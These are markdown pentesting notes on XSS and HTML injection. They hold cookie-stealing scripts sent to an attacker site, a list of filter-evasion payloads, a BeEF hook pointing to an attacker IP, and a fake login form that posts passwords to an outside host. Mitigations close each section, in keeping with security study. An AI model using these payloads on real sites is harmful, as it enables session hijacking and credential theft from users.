 # XSS

>[!INFO] What is a XSS ?
Cross-Site Scripting (XSS) attacks are a type of **injection**, in which **malicious scripts** are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send **malicious code**, generally in the form of a browser side script, to a different end user.

## Types

### **Stored XSS**

>[!INFO] What is a stored XSS ?
The injected script is permanently stored on the target servers, such as in a database, in a **message** forum, visitor log, **comment** **field**, etc. The victim then retrieves the malicious script from the server when it requests the stored information.

### **Reflected XSS**

>[!INFO] What is a reflected XSS ?
>Reflected attacks are those where the injected script is **reflected** off the web server, such as in an **error message**, **search result**, or any other response that includes some or all of the input sent to the server as part of the request.

**Explanations**

Let’s say a web page has a search box, which displays the search text alongside the search results as follows : **`Your search results for “searchtext”:`**
The web page also uses the **HTTP GET request method** to embed the user’s input data to the query string of the URL as follows: `https://example.com/action.php?query=searchtext`
If the search box is **susceptible to a non-persistent XSS attack**, a cybercriminal can send a malicious link to an unsuspecting user and exploit the vulnerability. **This is how the script-injected link could look like:**

```
https://example.com/action.php?query=<script>document.location=’https://xssattacksite.com/log.php?c=’ + encodeURIComponent(document.cookie)</script>
```

### **DOM XSS**

>[!INFO] What is a DOM-Based XSS ?
>DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the **attack payload is executed as a result of modifying the DOM “environment”** in the victim’s browser used by the original client side script, so that the client side code runs in an “**unexpected**” manner.
That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

Let’s take the following example of a web page that utilizes JavaScript to manipulate a DOM element:

```javascript
let searchText = document.getElementById(‘searchText’).value;
let resultsData = document.getElementById(‘resultsData’);
resultsData.innerHTML = ‘Your search results for: ‘ + searchText;
```

As you can see on the code snippet above, the **value** from a **user input field** is grabbed and **appended to an element within the web page’s HTML**. If an attacker can control this value, they can craft a devious value that forces their own code to be executed.

Here is an example :
`Your search results for: “<script>document.location=’https://xssattacksite.com/log.php?c=’ + document.cookie</script>”`

## Payloads

[XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
[XSS Payloads](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)

**Examples**
```html
<!-- put this into an user input -->
<img src=q onError=prompt('!XSS!'); />
<script>alert("!XSS!")</script>
<script>print()</script>

<!-- URL encoded -->
%uff1cscript%uff1eprompt("!XSS!");%uff1c/script%uff1e&
%253Cscript%253Eprint()%253C%252Fscript%253E
%253Cimg%2520src%253Dq%2520onError%253Dalert(%2522XSS%2522)%253B%2520%252F%253E

<!-- Bypassing First Filter -->
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<svg%09onload=alert(1)>
<svg onload%09=alert(1)>
<svg%09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload+0B=alert(1)>
<script>\u0061lert(1)</script>
<script>\u0061\u006c\u0065\u0072\u0074(1)</script>
<img src=x onerror="\u0061lert"/>
<img src=x onerror="eval('\141lert(1)')"/>
<img src=x onerror="eval('\x61lert(1)')"/>

 <!-- Javascript Keyword is blocked-->
<object data="JaVaScRiPt:alert(1)">
<object data="javascript&colon;alert(1)">
<object data="java  
    script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript;alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;74;&#x3A;alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

\"-alert(1)}//

```

## N.B.

### ~~alert()~~ print()

Use **print** instead of alert
[alert() is dead, long live print()](https://portswigger.net/research/alert-is-dead-long-live-print)

## Beef

### Install & Config

```bash
git clone https://github.com/beefproject/beef.git
./install
nano config.yaml # change username and password
./beef
```

### Control

```html
<!-- insert this into xss vulnerable field : -->
<script src="http://ip_hacker:3000/hook.js"></script>
<!-- use waf bypass -->
```

## Mitigations

* Developers should implement a **whitelist** of allowable inputs, and if not possible then there should be some input validations and the data entered by the user must be filtered as much as possible.
* Output **encoding** is the most reliable solution to combat XSS i.e. it takes up the script code and thus converts it into the plain text.
* A **WAF** _(Web Application Firewall)_ should be implemented as it somewhere protects the application from XSS attacks.
* Use of **HTTPOnly Flags** on the **Cookies**.
* The developers can use **Content Security Policy (CSP)** to reduce the severity of any XSS vulnerabilities.

# HTML Injection

## Check

* **User inputs**
  * URL Encode or other encodings

## Payloads

```html
<!-- URL ENCODE THESE & put them in a form field -->
<b>test</b>
<a href="https://google.com">test</a>
<img src= "https://www.ignitetechnologies.in/img/logo-blue-white.png">

<!-- add a form field to website -->
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index:1000; background-color:white; padding:1em;">Please login with valid 
credentials:<br><form name="login" action="http://192.168.0.7:4444/login.htm">
<table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td>
<td><input type="text" name="password"/></td></tr><tr>
<td colspan=2 align=center><input type="submit" value="Login"/></td></tr>
</table></form>
```

## Mitigations

* The developer should set up his HTML script which filters the **meta-characters** from user inputs.
* The developer should implement functions to **validate the user inputs** such that they do not contain any specific tag that can lead to **virtual defacement.**